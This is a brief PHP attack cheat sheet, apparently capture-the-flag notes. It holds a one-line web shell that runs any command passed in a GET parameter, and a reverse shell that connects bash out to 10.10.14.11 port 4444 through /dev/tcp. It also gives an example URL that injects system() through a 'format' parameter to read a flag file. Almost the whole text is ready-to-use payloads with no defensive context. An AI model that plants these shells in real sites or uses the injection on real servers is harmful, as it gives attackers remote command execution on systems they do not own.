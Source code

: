 # PHP

## Cookies

PHPSESSID

## Web shell

```php
<?php system($_GET["cmd"]); ?>
```

## Reverse shell

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.11/4444 0>&1'");?>
```

## Examples

```
http://<IP>:45338/?format=${system($_GET[id])}&id=cat%20../flag.txt
```